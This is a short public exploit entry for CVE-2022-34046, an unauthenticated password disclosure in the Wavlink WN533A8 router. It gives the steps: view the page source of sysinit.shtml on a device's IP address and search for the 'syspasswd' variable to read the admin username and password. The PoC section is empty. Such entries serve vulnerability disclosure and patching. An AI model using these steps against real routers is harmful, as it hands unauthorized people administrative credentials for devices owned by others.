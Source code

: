# Exploit Title: wavelink WN533A8 password disclosure
# Date: 2022-06-12
# Exploit Author: Ahmed Alroky
# Author Company : AIactive
# Version: M33A8.V5030.190716
# Vendor home page : wavlink.com
# Authentication Required: No
# CVE : CVE-2022-34046

# Tested on: Windows


# Exploit

view-source:http://IP_ADDRESS/sysinit.shtml
search for var syspasswd=" 
you will find the username and the password

# Poc

